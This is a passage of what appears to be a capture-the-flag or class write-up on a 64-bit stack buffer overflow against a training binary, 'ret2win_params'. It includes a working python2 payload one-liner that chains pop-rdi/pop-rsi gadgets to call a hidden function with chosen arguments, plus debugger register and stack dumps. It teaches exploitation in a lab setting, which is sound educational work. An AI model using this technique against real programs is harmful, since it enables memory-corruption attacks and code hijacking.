 Here we need to pass two params to `hacked()`. Normally, the program will push them onto the stack before calling the function. But here, as we use a BOF on it, we need to proceed in "reverse order" ... bear with me ...

When we fill the buffer and overflow the stack, we fill data from low adresses (the lower address being the start of the buffer) to high.er addresses.

Let's say we wanna call a function with a specific value: we first fill in the necessary padding so we can overflow, then we fill in the value of the parameter we want to use with the function, and then the address of the function we wanna call with this parameter.
When th e program will execute, RIP will "move" first through the buffer, then into the parameter and then into the address of the function.

So here, we need to fill in data into the program in this order: 
1. the padding full of A's
2. the `pop rdi; ret;` gadget and add extra zeroes to fill the whole 64 bits
3. the value to pop in RDI
4. the `pop rsi; pop r15; ret` gadget (`pop rsi; ret;` alone didnt exist)
5. the value to pop in RSI and right after the value to pop in r15
6. the address of `hacked()`

We can do it full-manually like this:
```bash
$ python2 -c 'print "A" * 24 + "\x4b\x12\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\x49\x12\x40\x00\x00\x00\x00\x00" + "\xbe\xba\xde\xc0\xbe\xba\xde\xc0" + "\x00\x00\x00\x00\x00\x00\x00\x00" + "\x42\x11\x40\x00\x00\x00\x00\x00"' > payload
$ ./ret2win_params < payload
Name:
Hi there, AAAAAAAAAAAAAAAAAAAAAAAAK@
This function is TOP SECRET! How did you get in here?! :O
[1]    29573 segmentation fault  ./ret2win_params < payload
$
```

When exiting `register_name()` we have a stack that looks like this:

```bash
────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x26              
$rbx   : 0x00007fffffffdc68  →  0x00007fffffffdff1  →  "/home/kali/secu_classes_ctf/classes/cryptocat_bina[...]"
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x00007fffffffdb48  →  0x000000000040124b  →  <__libc_csu_init+005b> pop rdi
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00000000004052a0  →  0x6572656874206948 ("Hi there"?)
$rdi   : 0x00007fffffffd950  →  0x00007fffffffd980  →  0x6572656874206948 ("Hi there"?)
$rip   : 0x00000000004011d6  →  <register_name+0046> ret 
$r8    : 0x73              
$r9    : 0x1               
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffdc78  →  0x00007fffffffe064  →  "COLORFGBG=15;0"
$r14   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2e0  →  0x0000000000000000
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdb48│+0x0000: 0x000000000040124b  →  <__libc_csu_init+005b> pop rdi        ← $rsp
0x00007fffffffdb50│+0x0008: 0xdeadbeefdeadbeef
0x00007fffffffdb58│+0x0010: 0x0000000000401249  →  <__libc_csu_init+0059> pop rsi
0x00007fffffffdb60│+0x0018: 0xc0debabec0debabe
0x00007fffffffdb68│+0x0020: 0x0000000000000000
0x00007fffffffdb70│+0x0028: 0x0000000000401142  →  <hacked+0000> push rbp
0x00007fffffffdb78│+0x0030: 0x00007fffffffdc00  →  0x00000000004011d7  →  <main+0000> push rbp
0x00007fffffffdb80│+0x0038: 0x00007fffffffdc68  →  0x00007fffffffdff1  →  "/home/kali/secu_classes_ctf/classes/cryptocat_bina[...]"
──────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4011cf <register_name+003f> call   0x401040 <printf@plt>
     0x4011d4 <register_name+0044> nop    
     0x4011d5 <register_name+0045> leave  
●→   0x4011d6 <register_name+0046> ret    
   ↳    0x40124b <__libc_csu_init+005b> pop    rdi
        0x40124c <__libc_csu_init+005c> ret    
        0x40124d                  nop    DWORD PTR [rax]
        0x401250 <__libc_csu_fini+0000> ret    
        0x401251                  add    BYTE PTR [rax], al
        0x401253                  add    BYTE PTR [rax-0x7d], cl
──────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ret2win_params", stopped 0x4011d6 in register_name (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4011d6 → register_name()
[#1] 0x40124b → __libc_csu_init()
[#2] 0x401249 → __libc_csu_init()
[#3] 0x401142 → frame_dummy()
[#4] 0x7fffffffdc00 → xlat BYTE PTR ds:[rbx]
[#5] 0x7fffffffdc68 → int1 
```
The arguments are in RDI and RSI, we now know we can call `hacked()`
```bash
────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x26              
$rbx   : 0x00007fffffffdc68  →  0x00007fffffffdff1  →  "/home/kali/secu_classes_ctf/classes/cryptocat_bina[...]"
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x00007fffffffdb70  →  0x0000000000401142  →  <hacked+0000> push rbp
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0xc0debabec0debabe
$rdi   : 0xdeadbeefdeadbeef
$rip   : 0x000000000040124c  →  <__libc_csu_init+005c> ret 
$r8    : 0x73              
$r9    : 0x1               
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffdc78  →  0x00007fffffffe064  →  "COLORFGBG=15;0"
$r14   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2e0  →  0x0000000000000000
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdb70│+0x0000: 0x0000000000401142  →  <hacked+0000> push rbp        ← $rsp
0x00007fffffffdb78│+0x0008: 0x00007fffffffdc00  →  0x00000000004011d7  →  <main+0000> push rbp
0x00007fffffffdb80│+0x0010: 0x00007fffffffdc68  →  0x00007fffffffdff1  →  "/home/kali/secu_classes_ctf/classes/cryptocat_bina[...]"
0x00007fffffffdb88│+0x0018: 0x75eab2ba6757f462
0x00007fffffffdb90│+0x0020: 0x0000000000000000
0x00007fffffffdb98│+0x0028: 0x00007fffffffdc78  →  0x00007fffffffe064  →  "COLORFGBG=15;0"
0x00007fffffffdba0│+0x0030: 0x00007ffff7ffd000  →  0x00007ffff7ffe2e0  →  0x0000000000000000
0x00007fffffffdba8│+0x0038: 0x0000000000000000
──────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x401246 <__libc_csu_init+0056> pop    r13
     0x401248 <__libc_csu_init+0058> pop    r14
     0x40124a <__libc_csu_init+005a> pop    r15
 →   0x40124c <__libc_csu_init+005c> ret    
   ↳    0x401142 <hacked+0000>    push   rbp
        0x401143 <hacked+0001>    mov    rbp, rsp
        0x401146 <hacked+0004>    sub    rsp, 0x10
        0x40114a <hacked+0008>    mov    QWORD PTR [rbp-0x8], rdi
        0x40114e <hacked+000c>    mov    QWORD PTR [rbp-0x10], rsi
        0x401152 <hacked+0010>    movabs rax, 0xdeadbeefdeadbeef
──────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ret2win_params", stopped 0x40124c in __libc_csu_init (), reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40124c → __libc_csu_init()
[#1] 0x401142 → frame_dummy()
[#2] 0x7fffffffdc00 → xlat BYTE PTR ds:[rbx]
[#3] 0x7fffffffdc68 → int1 
```
